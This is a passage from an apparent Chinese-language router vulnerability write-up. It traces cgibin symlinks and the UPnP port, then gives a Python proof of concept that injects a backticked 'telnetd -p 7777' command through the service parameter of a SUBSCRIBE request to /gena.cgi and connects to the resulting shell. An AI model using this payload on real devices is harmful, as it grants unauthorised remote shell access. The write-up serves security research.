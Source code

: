这里将cgibin的软链接建到了/var/htdocs/upnp/目录下，而这个目录也有软链接，为/htdocs/upnp/docs：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H439ZvTia7ia0eS5yDdjuyHiaL2Fwn2BItoO6JJAsJEAH3wD6LJlEURibQMw/640?wx_fmt=png "")  
  
   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H40f1ggXpn7DLJD1icNkw5SbRAHmaqHyz2fMjY6uUdK1JrupTMA8JjJxg/640?wx_fmt=png "")  
  
   
  
得到了这些信息，再看到/var/run/httpd.conf文件：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4GMwrFZMG3ib9EQ1azNYsdL8eGqKBOIWEPW2ekeYkEQqjq0b5zVwF0ZQ/640?wx_fmt=png "")  
  
   
  
可以看到，需要向49152端口发送报文。  
  
   
  
**POC：**  
```
from pwn import *
from socket import *
from os import *
from time import *
 
request = b"SUBSCRIBE /gena.cgi?service=" + b"`telnetd -p 7777`" + b" HTTP/1.1\r\n"
request += b"Host: localhost:49152\r\n"
request += b"Callback: http:///\r\n"
request += b"NT: upnp:event\r\n"
request += b"Timeout: Second-2333\r\n\r\n"
 
s = socket(AF_INET, SOCK_STREAM)
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(request)
 
#io = remote("192.168.0.1", 49152)
#io.send(request)
 
sleep(1)
os.system('telnet 192.168.0.1 7777')
```  
  
  
这里拿socket或pwntools来打都是OK的：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4BVeoo47r8ic1ApY7BaU0zNWs5EMCKExJc0KqAFakbV0RD3XrUBsMoww/640?wx_fmt=png "")  
  
   
  
或者直接nc上49152端口手动发送报文：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H47EpS2SH3DfyU9TOn98YicSSK9KQvrWzVZNhrEtfUDGZ5viaL525EXwCw/640?wx_fmt=png "")  
##   
##   
  
四  
  